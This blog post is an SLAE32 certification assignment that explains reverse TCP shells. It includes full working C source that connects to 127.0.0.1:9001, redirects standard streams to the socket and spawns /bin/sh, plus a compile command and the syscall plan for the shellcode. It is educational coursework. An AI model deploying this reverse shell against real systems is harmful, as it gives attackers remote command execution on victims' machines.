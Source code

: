 ```yaml
---
title: SLAE32 - Assignment#2 [Reverse TCP Shell]
author: bigb0ss
date: 2020-12-13 13:26:00 +0800
categories: [SLAE32, Assignment_2_Reverse-TCP-Shell]
tags: [slae32, assembly, x86, Reverse TCP Shell]
image: /assets/img/post/slae32/slae32.png
---
```


<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#2 Github](https://github.com/bigb0sss/SLAE32)


# Assignement #2 
* Create a Shell_Reverse_TCP shellcode
	- Reverse connects to configured IP and Port
	- Execs shell on successful connection
* IP and Port should be easily configurable

# What is a Reverse Shell?
Oppose to a Bind Shell, a Reverse Shell connects back to the attacker's computer upon a payload executed on the victim's system. This type of shell is more useful when the target organization has a strong Firewalls for inbound connection. The Reverse Shell can take the advantage of common outbound ports such as port 80, 443, 53 and etc. 

![image](/assets/img/post/slae32/assignment2/01.png)

# Socket Programming
Similar to the Bind TCP Shell exercise, let's create a Reverseh TCP Shell in a higher programming language. We will use `C` again:

```c++
#include <netinet/in.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <unistd.h>

int main()
{
    int sockfd;
	int port = 9001;

	// Address struct
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(port); 
    addr.sin_addr.s_addr = inet_addr("127.0.0.1");

   	// 1) Socket Syscall (sys_socket 1)
	sockfd = socket(AF_INET, SOCK_STREAM, 0);

    // 2) Connect Syscall
    connect(sockfd, (struct sockaddr *) &addr, sizeof(addr));
    
    // 3) Dup2 Syscall
    dup2(sockfd, 0);    //stdin
    dup2(sockfd, 1);    //stdout
    dup2(sockfd, 2);    //stderr

    // 4) Execve Syscall
    execve("/bin/sh", NULL, NULL);
    return 0;
}
```

Let's compile this: 

```console
gcc reverse-tcp-shell.c -o reverse-tcp-shell -w
```

The compiled reverse shell binary can successfully connect back to `127.0.0.1:9001` as expected.

![image](/assets/img/post/slae32/assignment2/02.png)


# Shellcode

For the Reverse TCP Shell, we need to following `syscalls`:

1) Socket: Initializing the Socket connection
2) Connect: Creating the Connect call to the given address
3) Dup2: Manages `stdin`, `stdout` and `stderr` for the file descriptor. This is necessary for input and output redirection.
4) Execve: Execute a command (`/bin/sh` to spawn a shell)

